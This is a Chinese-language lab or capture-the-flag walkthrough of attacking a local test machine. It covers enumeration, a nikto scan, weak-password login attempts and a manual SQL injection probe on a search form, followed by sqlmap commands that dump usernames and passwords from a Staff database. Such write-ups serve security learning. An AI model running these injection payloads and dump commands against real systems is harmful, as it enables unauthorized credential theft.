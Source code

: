 ###### 端点访问

空白

<br/>`.php`可能可以`fuzz`

<br/> 没东西

<br/> 里面的按钮按了没反应，也没看到什么源码

<br/> 登录端点

然后还有一个我可以点击的`search`

#### 功能点的实践

之前信息收集的内容还可以深入，不过都待定

##### 漏洞探测-nikto扫描

首先挂上一个扫描器
1.  `nikto -h http://192.168.178.209` 
回过头来看发现没什么

##### 登录端点浅浅实践

在登录端点来一手弱口令，以及万能密码发现都没用

<br/> 然后因为不知道账号是啥，尝试挂着跑`admin`账户的弱口令

### 漏洞利用-getwebshell

#### 后台登录

##### 搜索功能点实践-SQL注入

接下来尝试来到搜索功能点，尝试输入一个`'`破坏完整性<br/> 因为搜索功能点大致会并入查询语句

<br/> 尝试输入了一个`'`之后发现没什么

<br/> 因为`sql`语句的不同，体现方法也是不一样滴<br/> 先试试正常的语句

<br/> 但是`Julie'`就什么都没显示，推测要注释掉后面的内容<br/>`Julie' -- qwe` 显示了内容

<br/> 极大可能是存在`sql`注入的，使用`sqlmap`

###### POST型

在传参的地方打上`*`
1.  `# 基础探测` 1.  `sudo sqlmap -u "http://192.168.178.209/results.php" --data "search=Julie*"` 1.  `# 发现存在之后直接爆数据库` 1.  `sudo sqlmap -u "http://192.168.178.209/results.php" --data "search=Julie*" --dbs` 1.  `# 爆出数据库之后爆表（首页的关键词Staff，先看这个)` 1.  `sudo sqlmap -u "http://192.168.178.209/results.php" --data "search=Julie*" -D Staff --tables` 1.  `# 爆字段名` 1.  `sudo sqlmap -u "http://192.168.178.209/results.php" --data "search=Julie*" -D Staff -T Users --columns` 1.  `# 爆字段中数据` 1.  `sudo sqlmap -u "http://192.168.178.209/results.php" --data "search=Julie*" -D Staff -T Users -C Username,Password --dump` 
基础探测存在

<br/> 存在三个数据库，首页的关键词`Staff`，先看这个，选择第二个
